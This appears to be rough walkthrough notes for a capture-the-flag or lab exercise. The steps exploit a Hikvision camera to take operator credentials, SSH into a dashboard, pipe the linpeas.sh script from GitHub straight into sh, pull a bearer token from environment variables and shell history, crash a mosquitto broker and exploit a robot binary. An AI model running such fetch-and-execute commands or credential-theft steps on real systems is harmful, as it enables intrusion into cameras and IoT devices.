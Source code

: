 (no need to ssh camera)
look at dashboard to see what happen
1. Find camera ip and port to find hikvision running
2. find version of hikvision on '/' page of camera
3. Exploit to get black screenshop (./tools/hikvision/attack-hikvision.py), and config with credentials of operator
4. Use these credentials of operator to enter in dashboard server with ssh `ssh operator@localhost -p 22222`

(dashboard)
# light
- make mosquitto crash on it
- attack file .attack.py
- might be slow so stop it manually

(dashboard)
# next
`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
- next route with ENV and /next
we can try but see that dashboard does not resolve, not problem we have the ip
`http get http://localhost:1880/next --headers [Authorization "Bearer 0c497d24da14cde5f5b947f7920d4df20189d9b1ad3302b9b31afd1ec1918f1b"]`

(dashboard)
# robot
- find robot
- decompile with `nix-shell -p binutils` + `objdump -o robot`

5. On the server, find token in ENV and route /next in .bash_history
6. Make mosquitto crash to turn on the light
7. exploit c file to control the robot and make it go further

light
can use `mosquitto_pub -h localhost -t light/control -m "off"` to sned message
